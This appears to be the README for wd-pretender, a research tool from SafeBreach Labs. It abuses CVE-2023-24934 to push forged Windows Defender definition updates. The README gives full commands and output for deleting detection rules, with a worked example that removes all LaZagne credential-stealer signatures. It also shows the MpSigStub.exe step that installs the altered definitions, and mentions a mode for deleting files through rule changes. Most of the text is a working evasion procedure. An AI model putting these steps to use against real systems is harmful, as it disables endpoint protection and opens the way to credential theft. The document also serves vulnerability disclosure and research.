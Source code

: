 # wd-pretender

## TL;DR
Compatible with Windows Defender platform version 4.18.2302.7 and earlier.


## Description
wd-pretender is a powerful tool designed to simulate a Windows Defender update using the [CVE-2023-24934](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2023-24934) vulnerability. This tool is intended for educational and research purposes only and should be used responsibly and with proper authorization. The primary objective of wd-pretender is to demonstrate potential security vulnerabilities and raise awareness about the importance of robust endpoint security measures.

## Features
- Bypass EDR Rules: Bypass certain Windows Defender security measures and remain undetected.

## Installation 
Windows with Python 3.10+ with the libraries mentioned in the file `requirements.txt`


## Usage
```
-- Defender-Pretender: v1.0.0 (SafeBreach Labs) --

[+] Getting Signatures Location ...
usage: wd-pretender.py command [options]

Windows Defender Update

positional arguments:
  {bypass,delete}
    bypass             bypass windows defender rules by threat name
    delete             delete file by modifying rules

optional arguments:
  -h, --help           show this help message and exit
  -o OUTPUT            output folder for the exported vdm files
  -d DEFINITIONS_PATH  set explicit definitions path
```

### Bypass
```
        -- Defender-Pretender: v1.0.0 (SafeBreach Labs) --

[+] Getting Signatures Location ...
usage: wd-pretender.py command [options] bypass [-h] threat_name

positional arguments:
  threat_name  delete all threats matching <threat_name>
```

For example we want to bypass LaZagne rules and be able to execute LaZagne without been detected by Windows Defender.

```
python wd-pretender.py -o C:\BypassDefs bypass lazagne
```

Output:

```
python .\wd-pretender.py -o C:\Users\omeratt\work\lab bypass lazagne

        -- Defender-Pretender: v1.0.0 (SafeBreach Labs) --

[+] Getting Signatures Location ...
[+] Definitions Path: C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{5235DDA9-EDFD-456F-A39A-88CF98DA5B71}
[+] Loading mpasbase.vdm
[+] Loading mpasdlta.vdm
[+] Loading mpavbase.vdm
[+] Loading mpavdlta.vdm
[+] Enumerating Anti-Virus Definitions
[+] Threats Containing: lazagne
        Deleting => b'\xd8!LaZagne'
        Deleting => b'HackTool:Python/LaZagne'
        Deleting => b'HackTool:Python/LaZagne.A!MTB'
        Deleting => b'\xd8!LaZagne!ml'
        Deleting => b'HackTool:Python/LaZagne.D!MTB'
        Deleting => b'\xcc!Golazagne.A!MTB'
        Deleting => b'HackTool:Python/LaZagne.B'
        Deleting => b'\xd8!LaZagne!sms'
        Deleting => b'\xcc!Lazagne.A!MTB'
        Deleting => b'\xcc\xe1Lazagne'
[+] Enumerating Anti-Spyware Definitions
[+] Threats Containing: lazagne
[+] Exporting Definitions into: C:\Users\omeratt\work\lab
[+] mpasdlta.vdm: 1.391.491.0 => 1.391.492.0
[+] mpavdlta.vdm: 1.391.491.0 => 1.391.492.0
[+] Done!
```
The output displays the deleted threat rules recorded by the tool, indicating the removal of 10 threats from the Anti-Virus definitions. The newly updated definitions have been exported to the user-supplied export path located at C:\BypassDefs.

To proceed, ensure that MpSigStub.exe is copied to the BypassDefs folder. Following that, execute the following command:

```
MpSigStub.exe /stub 1.1.18500.10 /payload <defintion_new_version>
```
The export log generated by wd-pretender confirms the presence of the updated definitions with the version indicated as <definition_new_version>.

To verify the successful update, please refer to the "MpSigStub.log" file located in the Temp folder of the user with whom the execution took place. For instance, if the tool was executed with administrator privileges (although it is not a requirement), the log file can be found at C:\Windows\Temp.

## License
wd-pretender is released under the BSD 3-Clause License. 
Feel free to modify and distribute this tool responsibly, while adhering to the license terms.